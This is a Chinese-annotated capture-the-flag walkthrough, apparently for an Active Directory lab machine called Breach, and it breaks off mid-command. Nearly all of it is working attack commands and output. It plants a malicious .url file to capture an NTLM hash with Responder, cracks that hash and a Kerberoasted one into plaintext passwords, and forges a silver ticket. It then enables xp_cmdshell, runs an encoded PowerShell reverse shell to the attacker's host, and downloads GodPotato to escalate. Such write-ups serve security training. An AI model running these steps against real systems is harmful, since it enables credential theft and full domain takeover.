

## Breach
```
[★]$ nmap -sC -sV 10.129.3.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-08 09:18 CDT
Nmap scan report for 10.129.3.36
Host is up (0.0088s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-08 14:18:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.3.36:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.3.36:1433: 
|     Target_Name: BREACH
|     NetBIOS_Domain_Name: BREACH
|     NetBIOS_Computer_Name: BREACHDC
|     DNS_Domain_Name: breach.vl
|     DNS_Computer_Name: BREACHDC.breach.vl
|     DNS_Tree_Name: breach.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-03-08T14:15:52
|_Not valid after:  2056-03-08T14:15:52
|_ssl-date: 2026-03-08T14:19:27+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-08T14:19:27+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-08T14:18:47+00:00
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2026-03-07T14:13:02
|_Not valid after:  2026-09-06T14:13:02
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-08T14:18:48
|_  start_date: N/A

```
```
[★]$ echo "10.129.3.36 BREACHDC.breach.vl breach.vl" | sudo tee -a /etc/hosts
10.129.3.36 BREACHDC.breach.vl breach.vl
```
#### 使用 netexec 来查看 SMB 中是否启用了访客身份验证。同时,还可以使用 --share 选项来列出可用的共享资源。
```
[★]$ nxc smb breach.vl -u guest -p '' --shares
SMB         10.129.3.36     445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.129.3.36     445    BREACHDC         [+] breach.vl\guest: 
SMB         10.129.3.36     445    BREACHDC         [*] Enumerated shares
SMB         10.129.3.36     445    BREACHDC         Share           Permissions     Remark
SMB         10.129.3.36     445    BREACHDC         -----           -----------     ------
SMB         10.129.3.36     445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.129.3.36     445    BREACHDC         C$                              Default share
SMB         10.129.3.36     445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.129.3.36     445    BREACHDC         NETLOGON                        Logon server share
SMB         10.129.3.36     445    BREACHDC         share           READ,WRITE  
SMB         10.129.3.36     445    BREACHDC         SYSVOL                          Logon server share
SMB         10.129.3.36     445    BREACHDC         Users           READ
```
#### 已启用访客身份验证。我们还能看到，我们对名为“share”的非默认共享拥有读取和写入权限。
```
[★]$ smbclient //10.129.3.36/share
Password for [WORKGROUP\syareya55]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Mar  8 09:23:43 2026
  ..                                DHS        0  Tue Sep  9 05:35:32 2025
  finance                             D        0  Thu Feb 17 05:19:34 2022
  software                            D        0  Thu Feb 17 05:19:12 2022
  transfer                            D        0  Mon Sep  8 05:13:44 2025

		7863807 blocks of size 4096. 1533502 blocks available
smb: \> ls transfer\
  .                                   D        0  Mon Sep  8 05:13:44 2025
  ..                                  D        0  Sun Mar  8 09:23:43 2026
  claire.pope                         D        0  Thu Feb 17 05:21:35 2022
  diana.pope                          D        0  Thu Feb 17 05:21:19 2022
  julia.wong                          D        0  Wed Apr 16 19:38:12 2025

		7863807 blocks of size 4096. 1523436 blocks available
smb: \> 

```
#### 我们看到有一个名为“转移”的文件夹，该文件夹下有三个子文件夹，分别属于三位用户。
### Foothold
#### 由于我们对该共享区域有写入权限，所以让我们创建并上传一个互联网快捷方式文件（.url），该文件指向我们，这样当用户访问此文件夹时，它将尝试加载链接的网页，并向我们发出身份验证请求。我们可以运行响应器并监听此类身份验证请求，从而获取该用户的 NTLM 哈希值。
```
[★]$ vi kavi.url
[★]$ cat kavi.url
[InternetShortcut]
URL=asdasdas
WorkingDirectory=hehe
IconFile=\\10.10.14.27\aasd\nc.ico
IconIndex=1

[★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder
```
```
smb: \> cd transfer
smb: \transfer\> put kavi.url
putting file kavi.url as \transfer\kavi.url (1.9 kb/s) (average 2.8 kb/s)
smb: \transfer\> 
```
#### 等着等着就有了
```
[+] Listening for events...

[!] Error starting TCP server on port 53, check permissions or other servers running.

[SMB] NTLMv2-SSP Client   : 10.129.3.36
[SMB] NTLMv2-SSP Username : BREACH\Julia.Wong
[SMB] NTLMv2-SSP Hash     : Julia.Wong::BREACH:c32941b16f518f52:FCFF6B2FCF775C85D6822CAD7F6A6C80:010100000000000080CC1FBEDEAEDC01714CCAA3225ECA850000000002000800480056004800540001001E00570049004E002D00470048004E004B0037005A004C00450045004F00530004003400570049004E002D00470048004E004B0037005A004C00450045004F0053002E0048005600480054002E004C004F00430041004C000300140048005600480054002E004C004F00430041004C000500140048005600480054002E004C004F00430041004C000700080080CC1FBEDEAEDC010600040002000000080030003000000000000000010000000020000074DCD8B6771CAD26FA4B30453D54AAB7EE9C02BFE24C424B854B365C4D13D1A00A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320037000000000000000000
[*] Skipping previously captured hash for BREACH\Julia.Wong
```
#### 解hash
```
[★]$ vi hash
[★]$ cat hash
Julia.Wong::BREACH:c32941b16f518f52:FCFF6B2FCF775C85D6822CAD7F6A6C80:010100000000000080CC1FBEDEAEDC01714CCAA3225ECA850000000002000800480056004800540001001E00570049004E002D00470048004E004B0037005A004C00450045004F00530004003400570049004E002D00470048004E004B0037005A004C00450045004F0053002E0048005600480054002E004C004F00430041004C000300140048005600480054002E004C004F00430041004C000500140048005600480054002E004C004F00430041004C000700080080CC1FBEDEAEDC010600040002000000080030003000000000000000010000000020000074DCD8B6771CAD26FA4B30453D54AAB7EE9C02BFE24C424B854B365C4D13D1A00A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320037000000000000000000
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ hashcat hash rockyou.txt
ULIA.WONG::BREACH:c32941b16f518f52:fcff6b2fcf775c85d6822cad7f6a6c80:010100000000000080cc1fbedeaedc01714ccaa3225eca850000000002000800480056004800540001001e00570049004e002d00470048004e004b0037005a004c00450045004f00530004003400570049004e002d00470048004e004b0037005a004c00450045004f0053002e0048005600480054002e004c004f00430041004c000300140048005600480054002e004c004f00430041004c000500140048005600480054002e004c004f00430041004c000700080080cc1fbedeaedc010600040002000000080030003000000000000000010000000020000074dcd8b6771cad26fa4b30453d54aab7ee9c02bfe24c424b854b365c4d13d1a00a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320037000000000000000000:Computer1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```
#### 我们成功获取到了密码“Computer1”。凭借这个密码，我们可以以“julia.wong”用户的身份通过 SMB 连接到服务器，并从“\transfer\julia.wong\user.txt”文件中获取用户标识信息。
```
[★]$ smbclient //10.129.3.36/share -U 'julia.wong%Computer1'
Try "help" to get a list of possible commands.
smb: \> get \transfer\julia.wong\user.txt
getting file \transfer\julia.wong\user.txt of size 32 as \transfer\julia.wong\user.txt (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> exit
[★]$ cat '\transfer\julia.wong\user.txt'
```
### Lateral Movement
```
[★]$ bloodhound-python -d breach.vl -u 'julia.wong' -p 'Computer1' -dc 'BREACHDC.breach.vl'  -c all -ns 10.129.3.36 --dns-tcp
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: breach.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: BREACHDC.breach.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: BREACHDC.breach.vl
INFO: Found 15 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: BREACHDC.breach.vl
INFO: Done in 00M 02S
```
#### 一旦将文件上传至“血犬”用户界面，接下来让我们查看“分析”选项卡，并查看“kerberoastable”用户（即已设置 SPN 的用户）。
```
[★]$ sudo neo4j start
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:62726). It is available at http://localhost:7474
There may be a short delay until the server is ready.
[★]$ bloodhound
```
#### 把JUKIA.WONG@BREACH.VL 点击Analysis -> List all Kerberoastable Accounts -> 会出现 KRBRGT@BREACH.VL 和 SVC_MSSQL@BREACH.vl
#### 我们发现有一个名为“svc_mssql”的 Kerberos 非稳定用户。（请注意，KRBTGT 账户默认也设置了 SPN。但由于其密码非常复杂，并且由域控制器定期更换，所以尝试破解它毫无意义）
#### 那么，让我们使用 Impacket 工具包中的 GetUserSPNs.py 脚本来执行 Kerberoasting 攻击，以获取此用户的 KRB5TGS 哈希值。
```
[★]$ locate GetUserSPNs.py
/opt/pipx/venvs/netexec/bin/GetUserSPNs.py
/root/.local/bin/GetUserSPNs.py
/root/.local/share/pipx/venvs/impacket/bin/GetUserSPNs.py
/usr/local/bin/GetUserSPNs.py
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py
[/][★]$ pwd
/
[/][★]$ cd ~
[~][★]$ pwd
/home/syareya55
[~][★]$ cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
```
#### 这里啊，可以看到MSSQLSvc/breachdc.breach.vl:1433,ServicePrincipalName=SPN
```
[★]$ GetUserSPNs.py 'breach.vl/julia.wong:Computer1' -request 
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName              Name       MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------------------  ---------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/breachdc.breach.vl:1433  svc_mssql            2022-02-17 04:43:08.106169  2026-03-08 09:15:47.746899             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssql*$ac42111ccc906c0ea22b6b5f8<SNIP>...6d03c91713df7b076c09
```
#### 请注意，此 svc_mssql 账户所使用的 SPN 设置为 MSSQLSvc/breachdc.breach.vl 
#### 然后我们需要将这个哈希值保存到一个文件中，并使用哈希破解工具（如 hashcat）来尝试破解它
```
[★]$ vi svc_mssql_hash
[★]$ cat svc_mssql_hash
$krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssql*$ac42111ccc906c0ea22b6b5f83610076$3fc495285b622bcd09757d2513a40948f1145c43fc5c8acd28f9eb0818662922d5824f740</SNIP>
```
#### 它成功获取到了密码，为“Trustno1”。现在我们可以以“svc_mssql”用户的身份对域进行身份验证
```
[★]$ hashcat svc_mssql_hash rockyou.txt
<SNIP>
b5608b05b3ae9bf09ec43b2d14a05f32c7f63206b19159a78da801a844cae000a92a5753c5a6d03c91713df7b076c09:Trustno1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
</SNIP>
```
#### 此前我们看到，设置为“svc_mssql”账户的 SPN 是“MSSQLSvc/breachdc.breach.vl：1433”。这意味着，此账户在端口 1433 上运行 MSSQLSvc 服务。由于我们能够访问该账户，因此我们可以进行银票攻击并以域中的任何用户身份访问此服务。
#### 因此，让我们以管理员用户身份进行身份冒充以访问 MSSQL 服务器。在此之前，我们需要收集一些创建银票所需的数据。首先，我们需要获取域的 SID。可以从 Bloodhound 中获取。在搜索栏中搜索“breach.vl”，然后导航至Node Info -> Object ID 

#### 然后我们需要获取 svc_mssql 账户的 rc4 哈希值。由于我们拥有该用户的明文密码，所以可以使用 pypykatz 来生成 rc4 哈希值。
```
[★]$ pypykatz crypto nt Trustno1
69596c7aa1e8daee17f8e78870e25a5c
```
#### 现在，我们可以使用 Impacket 中的 ticketer.py 脚本来创建一张银色门票，并以管理员用户的身份进行模拟。
```
[★]$ locate ticketer.py
/opt/pipx/venvs/netexec/bin/ticketer.py
/root/.local/bin/ticketer.py
/root/.local/share/pipx/venvs/impacket/bin/ticketer.py
/usr/local/bin/ticketer.py
/usr/share/doc/python3-impacket/examples/ticketer.py
[★]$ cp /usr/share/doc/python3-impacket/examples/ticketer.py .

[★]$ ticketer.py -spn MSSQLSvc/breachdc.breach.vl -domain-sid S-1-5-21-2330692793-3312915120-706255856 -nthash 69596c7aa1e8daee17f8e78870e25a5c -dc-ip 10.129.3.36 -domain breach.vl -user-id 500 Administrator
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for breach.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
#### 请注意，-domain-sid 和 -nthash 是我们之前收集到的值。此外，-user-id 是我们试图模拟的用户（在此例中为“管理员”）的 RID。
#### 然后，我们需要将创建的“Administrator.ccache”文件导出，并使用 Impacket 中的“mssqlclient.py”脚本对 MSSQL 服务器进行身份验证。
```
[★]$ export KRB5CCNAME=Administrator.ccache
[★]$ locate mssqlclient.py
/opt/pipx/venvs/netexec/bin/mssqlclient.py
/root/.local/bin/mssqlclient.py
/root/.local/share/pipx/venvs/impacket/bin/mssqlclient.py
/usr/local/bin/mssqlclient.py
/usr/share/doc/python3-impacket/examples/mssqlclient.py
[★]$ cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
[★]$ mssqlclient.py -k -no-pass -windows-auth breachdc.breach.vl
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(BREACHDC\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
```
```
[★]$ klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@BREACH.VL

Valid starting       Expires              Service principal
03/08/2026 10:34:49  03/05/2036 09:34:49  MSSQLSvc/breachdc.breach.vl@BREACH.VL
	renew until 03/05/2036 09:34:49
```
#### 虽然 Linux DNS 通常大小写不敏感，但 Kerberos SPN 匹配有时会出问题
```
[★]$ nxc mssql breachdc.breach.vl --use-kcache
MSSQL       10.129.3.36     1433   BREACHDC         [*] Windows Server 2022 Build 20348 (name:BREACHDC) (domain:breach.vl)
MSSQL       10.129.3.36     1433   BREACHDC         [-] breach.vl\Administrator: (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
```
```
[★]$ cat /etc/hosts
<SNIP>
10.129.3.36 breachdc.breach.vl breach.vl
```
#### 然后刷新 Kerberos
```
[★]$ kdestroy
```
```
[★]$ ticketer.py -spn MSSQLSvc/breachdc.breach.vl -domain-sid S-1-5-21-2330692793-3312915120-706255856 -nthash 69596c7aa1e8daee17f8e78870e25a5c -dc-ip 10.129.3.36 -domain breach.vl -user-id 500 Administrator
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for breach.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache

[★]$ export KRB5CCNAME=Administrator.ccache

[★]$ mssqlclient.py -k -no-pass -windows-auth breachdc.breach.vl
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (BREACH\Administrator  dbo@master)> 
```
#### 由于我们以管理员身份连接，所以可以启用 xp_cmdshell 功能并在目标系统内执行命令。
```
SQL (BREACH\Administrator  dbo@master)> 
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
SQL (BREACH\Administrator  dbo@master)> EXEC xp_cmdshell 'whoami';
output             
----------------   
breach\svc_mssql   

NULL               

SQL (BREACH\Administrator  dbo@master)>
```
#### 工具 revshells.com; 选择PowerShell #3(Base64);Base64 编码的 UTF-16LE PowerShell 脚本
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
```
```
SQL (BREACH\Administrator  dbo@master)> EXEC xp_cmdshell 'powershell -exec bypass -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==';
```
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.3.36] 63680
whoami
breach\svc_mssql
PS C:\Windows\system32>
```
#### 一旦执行，我们就能以 svc_mssql 用户的身份获得一个反向 shell 连接。
### Privilege Escalation
#### 查看这些权限，我们注意到此使用具有“SeImpersonatePrivilege”权限。
```
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32>
```
#### Potato 提权（SeImpersonatePrivilege 提权）
#### 因此，让我们使用“GodPotato”来提升权限并获取以“nt”权限或“系统”身份的反弹shell。让我们将二进制文件从攻击者的机器上托管过来。
https://github.com/BeichenDream/GodPotato
#### 手动下载GodPotato-NET2，https://github.com/BeichenDream/GodPotato/releases
```
GodPotato-NET2.exe
[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```
```
PS C:\Windows\system32> cd ..\tasks
PS C:\Windows\tasks> curl 10.10.14.27:8011/GodPotato-NET4.exe -o GodPotato-NET4.exe
PS C:\Windows\tasks> ls


    Directory: C:\Windows\tasks


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          3/8/2026   4:58 PM          57344 GodPotato-NET4.exe

//测试
PS C:\Windows\tasks> .\GodPotato-NET4.exe
                                                                                               
    FFFFF                   FFF  FFFFFFF                                                       
   FFFFFFF                  FFF  FFFFFFFF                                                      
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF                
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF   
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF  
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF  
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF 
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF 
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF 
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF  
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF   
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF    


Arguments:

	-cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami" 
GodPotato -cmd "cmd /c whoami"
```
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
```
#### 最后，让我们使用之前使用的 PowerShell 反向 shell 代码来执行 GodPotato.exe 
```
PS C:\Windows\tasks> .\GodPotato-NET4.exe -cmd 'powershell -exec bypass -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBu